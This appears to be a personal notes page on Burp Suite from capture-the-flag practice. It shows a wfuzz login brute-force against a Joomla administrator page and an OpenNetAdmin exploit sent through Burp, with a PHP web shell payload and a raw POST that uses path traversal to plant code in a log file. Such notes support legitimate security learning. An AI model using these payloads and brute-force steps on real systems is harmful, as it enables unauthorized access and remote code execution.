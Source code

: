 # 💢 burpsuite
Tags: #💢
Related to: 
See also: [[wfuzz]]
Previous: [[Web Application Analysis]]

---
## Description

Burp Suite is an integrated platform for performing security testing of web applications. Its various tools work seamlessly together to support the entire testing process, from initial mapping and analysis of an application’s attack surface, through to finding and exploiting security vulnerabilities.

## Usage Examples

### Intercept traffic using burpsuite

1. Enable Proxy => Intercept is on
2. Use Burp's embedded browser.
3. Browse to 10.129.171.59/administrator
4. Forward until login page is loaded.
5. Set username to FUZZ
6. Set password to Curling2018!
7. Click Login
8. Copy cookie and post data:

		99fb082d992a92668ce87e5540bd20fa=omf6d7fp9a02939ooeqahd5dnl
		
		username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&d36732e30d0405ece8d5e1e1e343928b=1

#### Replaces anywhere FUZZ is in all caps with a line from wordlist

##### Proxied through burp

Note: If you're going to proxy wfuzz through burp, make sure the ip and port match the options!

Proxy => Options => Proxy Listeners => 127.0.0.1:8080

	fuzz -w cewl.out -c -d 'username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&0a3ab5ecdcbc47a15beabc106e671004=1' -b '99fb082d992a92668ce87e5540bd20fa=96vrskpirtingik35nav7gh66m' -p 127.0.0.1:8080 http://10.129.171.59/administrator/index.php

```
-w cewl.out										// wordlist
-c												// color output  
-d 												// post data  
-b												// cookie  
-p												// proxy (burp)  
http://10.129.161.239/administrator/index.php	// target

You can exclude results with one of the following:  

--hl 114										// hide results using 114 lines.  
--hc 200										// hide results using 200 response code.

After getting a correct login, you get an authentication cookie which may then cause the remaining items in the wordlist to return success responses.
```

##### Not proxied through burp

	wfuzz -w cewl.out -c -d 'username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&0a3ab5ecdcbc47a15beabc106e671004=1' -b '99fb082d992a92668ce87e5540bd20fa=96vrskpirtingik35nav7gh66m' http://10.129.171.59/administrator/index.php

### Send exploit through Burp proxy

Test in regular browser:

	localhost	// Run in firefox

Run in Burp:

1. Make sure Burp "Intercept is on".
2. "Open Browser" and browse to localhost.
3. Burp => Proxy => Forward to load exploit html from server into browser.
4. Change exploit "URL" from localhost to target in Firefox.
5. Change PHP to something benign to test with:

```
From:	<?php echo shell_exec($_GET[1]) ?>

To:		<?php echo("Please Subscribe"); ?>
```

6. "Exploit!"
7. Change Raw POST

```
From:	POST / HTTP/1.1

To:		POST /ona/dcm.php HTTP/1.1
```

```
POST /ona/dcm.php HTTP/1.1
Host: localhost
Content-Length: 209
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

options%5Bdesc%5D=%3C%3Fphp+echo%28%22Please+Subscribe%22%29%3B+%3F%3E&module=add_module&options%5Bname%5D=mandat0ry&options%5Bfile%5D=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fvar%2Flog%2Fona.log
```

8. <Ctrl+R> to send to Repeater.
9. <Ctrl+Shift+R> to switch to Repeater tab.
10. Burp Repeater => upper right, above inspector - Change exploit from localhost to target (10.129.187.158 Port: 80).
11. Send.


### Shortcuts
	<Ctrl+R>		// Send Proxy Intercept to Repeater  
	<Ctrl+Shift+R>	// Switch to that tab.
	
---
## References
- http://portswigger.net/burp/